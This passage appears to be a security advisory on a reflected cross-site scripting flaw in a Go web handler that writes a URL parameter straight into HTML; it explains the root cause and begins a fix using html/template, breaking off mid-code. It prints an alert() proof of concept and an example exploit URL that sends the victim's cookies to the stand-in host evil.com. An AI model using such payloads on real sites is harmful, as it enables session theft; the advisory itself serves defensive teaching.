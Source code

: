 ```html
<html><body>Welcome, <script>alert('XSS')</script>!</body></html>

```

The browser interprets this as valid HTML with an embedded script tag and executes the JavaScript code.

**Exploit Mechanism:**

To exploit this vulnerability, an attacker constructs a URL with a specially crafted `user` parameter containing JavaScript code:

```
http://acme-app.com/greet?user=<script>document.location='https://evil.com/steal?c='+document.cookie</script>

```

When a victim visits this URL, their browser:
1. Makes a request to the server
2. Receives the HTML response with the injected script
3. Parses the HTML and executes the embedded JavaScript
4. The malicious script runs with the same privileges as the origin site
5. The script can access cookies, session tokens, and perform actions on behalf of the user

**Technical Root Cause:**

Go's standard library provides the `html/template` package specifically designed to prevent XSS attacks through automatic context-aware escaping, but the vulnerable code bypasses this protection by directly writing to the response writer. This demonstrates a fundamental security anti-pattern in Go web development where developers mistakenly use direct string concatenation instead of the provided secure templating mechanisms.

# Remediation Steps
## Use Go's html/template Package for Proper Escaping

**Priority**: P0

Replace the direct string concatenation with Go's built-in `html/template` package, which automatically escapes HTML special characters:

```go
package main

import (
	"fmt"
	"html/template"
	"net/http"
)

// Define a template
const tmpl = `<html><body>Welcome, {{.}}!</body></html>`

func safeHandler(w http.ResponseWriter, r *http.Request) {
	// Retrieve user input
	user := r.URL.Query().Get("user")

	// Parse the template
	t, err := template.New("welcome").Parse(tmpl)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}

	// Execute the template with proper HTML escaping
	err = t.Execute(w, user)
```